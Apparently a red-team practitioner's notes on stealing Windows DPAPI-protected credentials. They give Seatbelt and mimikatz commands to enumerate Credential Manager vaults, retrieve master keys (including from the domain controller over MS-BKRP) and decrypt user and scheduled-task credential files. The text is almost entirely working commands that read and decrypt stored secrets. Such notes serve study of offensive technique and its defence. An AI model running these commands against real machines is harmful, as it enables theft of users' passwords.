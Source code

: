 # DPAPI Notes

## Credential Manager


To enumerate a user's vaults, you can use the native vaultcmd tool.
```
run vaultcmd /list
```

Another is to use Seatbelt 
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

The encrypted credentials themselves are stored in the users' "Credentials" directory.
```
ls C:\Users\<USER>\AppData\Local\Microsoft\Credentials
```

Seatbelt can also enumerate them using the WindowsCredentialFiles parameter
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles
```

Seatbelt also provides the GUID of the master key used to encrypt the credentials.  The master keys are stored in the users' roaming "Protect" directory
```
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\
```

To decrypt
```
mimikatz !sekurlsa::dpapi
```
Another way to obtain the master key (which does not require elevation or interaction with LSASS), is to request it from the domain controller via the Microsoft BackupKey Remote Protocol (MS-BKRP).  
```
mimikatz dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<master key> /rpc
```

Now get the decryption
```
mimikatz dpapi::cred /in:C:\Users\<USER>\AppData\Local\Microsoft\Credentials\<credential> /masterkey:<masterkey>
```

## Scheduled Task Credentials

check for scheduled tasks under:
```
C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\
```

dpapi::cred can tell us the GUID of the master key used to encrypt each one
```
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E
```

to dump cached keys
```
mimikatz !sekurlsa::dpapi
```

then decrypt
```
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
```
